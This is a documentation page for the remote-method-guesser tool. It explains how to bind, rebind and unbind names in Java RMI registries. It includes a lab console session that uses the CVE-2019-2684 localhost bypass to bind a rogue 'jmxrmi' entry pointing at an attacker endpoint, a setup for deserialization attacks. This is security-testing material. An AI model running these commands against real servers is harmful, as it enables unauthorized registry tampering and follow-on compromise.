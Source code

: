 
### Bind Actions

----

By using the ``bind``, ``rebind`` or ``unbind`` action, it is possible to modify the available *bound names* within the *RMI registry*.
During these actions *remote-method-guesser* just makes legitimate usage of the corresponding *remote methods* that are exposed by the
registry and calls them in the intended way. On a fully patched server, this should only work from localhost, as the *RMI registry*
validates the incoming client connection against all local IP addresses. An exception for this situation are servers that are vulnerable
to ``CVE-2019-2684``, which bypasses the localhost restrictions and enables remote users to perform bind operations. To use this bypass
technique, you need to specify ``--localhost-bypass`` together with the corresponding *bind action*.

Whereas the ``unbind`` action only requires the *bound name* that should be removed from the registry, the ``bind`` and ``rebind`` operations
also require a *RemoteObject* that should be bound. *remote-method-guesser* always uses ``javax.management.remote.rmi.RMIServerImpl_Stub``
for this purpose, which is the *RemoteObject* normally used by *jmx* servers. As *jmx* is part of the most common *Java Runtime Environments*,
it is likely that the registry can bind this object. Notice that arbitrary objects cannot be bound, as they need to be known by the *RMI registry*.
Nonetheless, you can attempt to bind arbitrary objects by using *rmg's* [Plugin System](./plugin-system.md).

*RemoteObjects* within the *RMI registry* are actually just references to their corresponding *TCP endpoints*. For this reason, during the ``bind``
and ``rebind`` operations, you have to specify an address for the corresponding endpoint. Clients that attempt to communicate with your
*bound name* as well as the *RMI registry* itself will sent *JRMP calls* to the specified endpoint from time to time. Depending on the server or
client configuration, this can be used for *deserialization attacks*.

```console
[qtc@kali ~]$ rmg 172.17.0.2 9010 
[+] RMI registry bound names:
[+] 
[+] 	- plain-server2
[+] 		--> de.qtc.rmg.server.interfaces.IPlainServer (unknown class)
[+] 	- plain-server
[+] 		--> de.qtc.rmg.server.interfaces.IPlainServer (unknown class)
[+] 	- legacy-service
[+] 		--> de.qtc.rmg.server.legacy.LegacyServiceImpl_Stub (unknown class)
[...]

[qtc@kali ~]$ rmg 172.17.0.2 9010 bind 172.17.0.1:4444 --bound-name jmxrmi --localhost-bypass
[+] Binding name jmxrmi to javax.management.remote.rmi.RMIServerImpl_Stub
[+] 
[+] 	Encountered no Exception during bind call.
[+] 	Bind operation was probably successful.

[qtc@kali ~]$ rmg 172.17.0.2 9010 
[+] RMI registry bound names:
[+] 
[+] 	- jmxrmi
[+] 		--> javax.management.remote.rmi.RMIServerImpl_Stub (known class)
[+] 	- plain-server2
[+] 		--> de.qtc.rmg.server.interfaces.IPlainServer (unknown class)
[+] 	- plain-server
[+] 		--> de.qtc.rmg.server.interfaces.IPlainServer (unknown class)
[+] 	- legacy-service
[+] 		--> de.qtc.rmg.server.legacy.LegacyServiceImpl_Stub (unknown class)
```